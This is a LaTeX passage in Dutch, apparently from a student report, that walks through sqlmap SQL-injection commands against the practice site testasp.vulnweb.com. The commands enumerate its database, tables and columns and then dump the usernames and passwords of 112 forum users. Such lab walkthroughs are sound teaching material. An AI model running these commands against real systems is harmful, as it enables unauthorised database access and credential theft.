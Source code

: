 \documentclass[pdftex,a4paper,12pt]{report}
\begin{document}
\begin{figure}[H]
\begin{center}
\includegraphics[scale=0.60]{img/SQLDatabasen}
\end{center}
\caption{Beschikbare databasen.}
\label{img:SQLDatabasen}
\end{figure}

Nu kan er een tabel gekozen worden om verder te gaan met het volgende commando om de verschillende soorten tabbellen in die specifieke database op te vragen:
\begin{verbatim} sqlmap -u http://testasp.vulnweb.com/showforum.asp?id=0 -D acuforum 
--tables \end{verbatim}

Zo zijn alle tabbellen zichtbaar en ook hier wordt er weer één uitgekozen om te kijken welke kolommen er precies allemaal in deze tabel zitten:
\begin{verbatim} sqlmap -u http://testasp.vulnweb.com/showforum.asp?id=0 -D acuforum 
-T users --columns \end{verbatim}

Nu kan er al heel veel gedaan worden, nu dat de kolommen zichtbaar zijn, kan er informatie opgevraagd worden uit deze kolommen. In dit geval is het dus mogelijk om de gebruikersnaam en wachtwoord op te vragen:
\begin{verbatim} sqlmap -u http://testasp.vulnweb.com/showforum.asp?id=0 -D acuforum 
-T users -C uname,upass \end{verbatim}

Dit geeft een lijst van 112 velden, zoals te zien is in figuur~\ref{img:SQLData}, want blijkbaar zijn er 112 gebruikers die een account hebben op dit forum. Het is nu mogelijk om al deze gegevens te gebruiken om in te loggen op dit forum. De data wordt ook automatisch lokaal opgeslagen, in dit geval is dit in \textit{/usr/share/sqlmap/output/testasp.vulnweb.com}.
\end{document}
